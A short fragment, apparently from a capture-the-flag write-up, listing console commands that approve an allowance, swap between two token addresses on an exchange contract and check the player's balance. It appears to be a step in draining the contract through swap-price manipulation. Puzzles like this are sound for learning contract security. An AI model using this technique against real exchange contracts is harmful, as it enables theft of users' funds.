

await contract.token1()

await contract.token2()

await contract.approve(contract.address,1000000)

await contract.swap('0x5D7fc8e76835aBCb3dEF3b79935B40CF2f297123','0x2aB7aC2c4a2193D5ff7C6fA5B1f21E55b961e659',9)

s= await contract.balanceOf('0x2aB7aC2c4a2193D5ff7C6fA5B1f21E55b961e659',player)
s.toString()

